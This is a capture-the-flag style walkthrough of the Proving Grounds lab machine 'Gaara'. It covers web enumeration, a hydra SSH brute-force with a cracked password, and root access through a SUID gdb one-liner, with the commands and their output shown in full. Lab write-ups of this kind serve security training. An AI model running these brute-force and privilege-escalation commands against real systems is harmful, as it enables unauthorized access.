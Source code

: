 # PG Play - Gaara

#### Ip: 192.168.198.142
#### Name: Gaara
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

Nmap:
```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ sudo nmap -p- --min-rate 10000 192.168.198.142 -sC -sV 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-10-09 15:39 CDT
Nmap scan report for 192.168.198.142
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
|   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
|_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Gaara
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.63 seconds
```

The site on port 80 is just an image of an anime character.

Trying directory fuzzing, Feroxbusted didn't find anything:

```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ feroxbuster --url http://192.168.198.142 -q
```

But trying gobuster with a bigger directory list finally found http://192.168.198.142/Cryoserver with a few entries at the bottom of the page:


```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.198.142        
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.198.142
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2024/10/09 15:42:06 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 280]
/Cryoserver           (Status: 200) [Size: 327]
Progress: 220560 / 220561 (100.00%)
===============================================================
2024/10/09 16:07:00 Finished
=======================================
```

/Temari
/Kazekage
/iamGaara

Each enpoint is a long text document going over the history of the anime.

![pgpl_gaara_words.png](../assets/gaara_assets/pgpl_gaara_words.png)

We can copy and paste the contents of each endpoint into a .txt file to see if they contain the same amount of words:

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ wc gaara.txt 
   28  2622 15953 gaara.txt
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ wc kazekage.txt 
   40  2632 16131 kazekage.txt
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ wc temari.txt  
   40  2632 16131 temari.txt
```

Interesting, it appears that /iamGaara is shorter than the other enpoints

### Exploitation / Foot Hold

Lets try using cewl to generate a wordlist for /iamGaara and /Temari


```
┌──(ryan㉿kali)-[~/PG/Gaara]
└─$ cewl http://192.168.198.142/iamGaara > cewl.txt

┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ cewl http://192.168.198.142/Temari > cewl2.txt 
```

The enpoints above also appear to be usernames so I'll ad those to users.txt file

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ cat users.txt 
temari
kazekage
iamgaara
gaara
```

After getting no hist against SSH with my cewl wordlists, I turned to trusty rockyou.txt.

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt  ssh://192.168.198.142 
```

This finally cracks the credentials `gaara:iloveyou2`


We can now use this credential to login as user gaara:

```
┌──(ryan㉿kali)-[~/PG/Play/Gaara]
└─$ ssh gaara@192.168.198.142 
The authenticity of host '192.168.198.142 (192.168.198.142)' can't be established.
ED25519 key fingerprint is SHA256:XpX1VX2RtX8OaktJHdq89ZkpLlYvr88cebZ0tPZMI0I.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.198.142' (ED25519) to the list of known hosts.
gaara@192.168.198.142's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
```

We can now access the local.txt flag:

pgpl_gaara_local.png

### Privilege Escalation

Loading LinPeas onto the target, we see that `gdb` has the SUID bit set.

pgpl_gaara_lp2.pg

Lets head to GTFObins for the command we'll need to exploit this:

pgpl_gaara_gtfo.png

We can run it as shown:

```
gaara@Gaara:/tmp$ cd /usr/bin
gaara@Gaara:/usr/bin$ ./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
--Type <RET> for more, q to quit, c to continue without paging--
Type "apropos word" to search for commands related to "word".
# whoami
root
```

We can now access the final flag:

pgpl_gaara_root.png

Thanks for following along!

-Ryan

-----------------------------------------
